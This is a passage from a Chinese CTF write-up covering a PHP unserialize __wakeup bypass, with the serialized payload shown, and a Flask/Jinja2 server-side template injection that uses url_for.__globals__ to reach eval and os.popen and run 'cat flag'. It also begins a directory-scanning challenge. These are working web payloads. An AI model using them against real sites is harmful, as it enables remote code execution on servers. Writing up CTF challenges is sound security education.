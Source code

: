 得到结果：

```
O:4:"Flag":3:{s:1:"a";s:1:"1";s:4:"%00*%00b";s:1:"2";s:7:"%00Flag%00c";s:1:"3";}
```

其中%00是一个空字符，%00*%00表示protected类型，%00Flag%00表示private类型。

"Flag"后面那个数字便是对象数量。按照上文的漏洞修改一下。

```
O:4:"Flag":114514:{s:1:"a";s:1:"1";s:4:"%00*%00b";s:1:"2";s:7:"%00Flag%00c";s:1:"3";}
```

传入$interesting变量得到flag。

### 0x05 你要玩蛇吗

看到蛇，猜想和~~Arcaea~~Python有关。点进去用眼睛瞪，发现网页GET了一个name字段并显示在网页上。

使用BurpSuite的Repeater功能看到有一个Server：gunicorn字样，谷歌一下发现确实是一个python的webserver，猜测入手点是python。

众所周知（其实是别人告诉我的），有一个优秀的python web框架叫Flask，默认使用jinja引擎。熟练运用搜索引擎获得一个漏洞示例（下已改为题目格式）

```python
def cum(name):
	tp = '{{name}}超喜欢玩蛇哦'
	return render_template_string(tp, name=name)
```

其中render_template_string是jinja引擎的模板渲染函数。其中{{name}}表示name变量的值。那么如果我在浏览器地址栏中令/?name={{Fuc1()}}( 其中Fuc1()是一个函数)会发生什么呢？

**函数Fuc1()的返回值将会显示在页面中**

接下来几步涉及Python基础。

1. `__globals__`：每个python函数都含有一个`__globals__`字典，存储“在本函数中可以存储的全局变量”列表。其中一定有一个`__builtins__`变量。
2. `__builtins__`：我们知道，Python 需要 import 才能引用其他包的函数。但由于一部分函数实在过于常用，所以无需引入也能用。它们就是 `__builtins__` 字典中的函数。
    比如： `print, open, chr, len, abs, eval`
3. `eval`：Python的`eval`是把一个字符串当作代码来执行。

也就是我们需要找到一个函数`fun`，调用`fun.__globals__['__builtins__']['eval']()`即可在网站上执行任意代码。

如何找到一个函数呢？搜索得到flask框架中有一个可以直接调用的函数`url_for()`。

那么我们需要执行什么代码呢？有如下语句：

`__import__("os").popen("...").read()`

作用是引入os并调用，返回程序输出。试试直接`cat`一下`flag`？

`/?name={{url_for.__globals__['__builtins__']['eval'](__import__("os").popen("cat flag").read())}}`

发现页面上出现了flag，好神奇哦。

### 0x06 给我康康你的照片

其实我开这题只是想看看有没有别的小可爱传照片，但是其实看不到，恼火。

我实在做不出来，索性使用中国御剑扫描网站目录看到有一个robots.txt文件，点进去发现让我访问s3cr3t.php，立即访问。
